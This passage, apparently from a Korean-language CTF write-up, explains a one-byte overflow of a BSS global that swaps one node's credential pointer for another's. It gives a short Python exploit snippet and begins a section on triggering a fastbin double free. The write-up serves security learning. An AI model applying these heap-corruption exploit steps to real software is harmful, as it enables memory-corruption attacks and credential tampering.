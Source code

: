 ![08_bss_global_var_overflow](/assets/img/posts/HS2024-1/ROUND4/vspm/v2/08_bss_global_var_overflow.png)
heap leak없이 5번 node의 credential 주소(heap)를 4번 node의 credential 주소로 덮기 위해 `0x56048f212128` 을 1바이트 overflow해서 `\x00`으로 덮어주면, 5번 node의 credential 주소값이 4번 node의 credential 주소로 바뀐다.

```python
add(0x68, b'A'*0x68, b'3')  # dummy for address alignment
add(0x68, b'A'*0x68, b'4')
add(0x68, b'B'*0x68, b'5')
add(0x68, b'C'*0x68, b'6')
delete(4)
add(0x68, b'A'*0x68, b'5'*0x20+b'\x00') # node[1].ptrcred = node[0].ptrcred
```

#### 4.2.2. Double free
fastbin에서 같은 주소 연속 free를 raise하기때문에, 중간에 dummy로 6번 node를 free시켜줘야한다.